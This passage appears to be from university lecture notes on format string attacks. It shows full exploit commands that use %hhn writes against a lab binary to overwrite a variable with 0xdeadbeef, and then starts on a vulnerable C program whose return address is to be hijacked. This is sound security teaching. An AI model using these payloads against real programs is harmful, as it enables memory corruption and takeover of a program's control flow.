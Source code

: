 Two more to go. We have `0xb7` needs to become `0xbe`. that's easy,
that's an additional 7 bytes, so we need to change the next %x to use 15
leading zeros.

``` {.example}
user@si485H-base:demo$ ./fmt_vuln $(printf "\x2f\xa0\x04\x08")$(printf "\x2e\xa0\x04\x08")$(printf "\x2d\xa0\x04\x08")$(printf "\x2c\xa0\x04\x08").%1\$0204x.%4\$hhn.%1\$0205x.%\5\$hhn.%1\$015x.%\6\$hhn.%1\$08x.%\7\$hhn
Right: /.-,.%1$0204x.%4$hhn.%1$0205x.%5$hhn.%1$015x.%6$hhn.%1$08x.%7$hhn

Wrong: /.-,.0000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000bffff280..00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000bffff280..0000000bffff280..bffff280.

[*] test_val @ 0x804a02c = -559038776 0xdeadbec8
```

Finally, we have 0xc8 that needs to become 0xef, which requires 39
additional leading zeros. So the last %x needs to be changed to 47.

``` {.example}
user@si485H-base:demo$ ./fmt_vuln $(printf "\x2f\xa0\x04\x08")$(printf "\x2e\xa0\x04\x08")$(printf "\x2d\xa0\x04\x08")$(printf "\x2c\xa0\x04\x08").%1\$0204x.%4\$hhn.%1\$0205x.%\5\$hhn.%1\$015x.%\6\$hhn.%1\$047x.%\7\$hhn
Right: /.-,.%1$0204x.%4$hhn.%1$0205x.%5$hhn.%1$015x.%6$hhn.%1$047x.%7$hhn

Wrong: /.-,.0000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000bffff280..00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000bffff280..0000000bffff280..000000000000000000000000000000000000000bffff280.

[*] test_val @ 0x804a02c = -559038737 0xdeadbeef
```

And there it is: DEADBEEF!

Overwriting the Return Address using a Format
=============================================

So far, we've used format string attacks to overwrite a arbitrary value,
but we need to now consider using this with an exploit.

Let's return to the example code we used the last time, but this time
there is a function `foo()` that we wish to call by overwriting the
return address of `main()`.

``` {.c}
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include "print_stack.h"


void foo(){
  printf("Go Navy!\n");
}


int main(int argc, char * argv[]){

  static int test_val = 0x00616161; //"AAA\0" as an int

  printf("Right: ");
  printf("%s", argv[1]);
  printf("\n\n");
```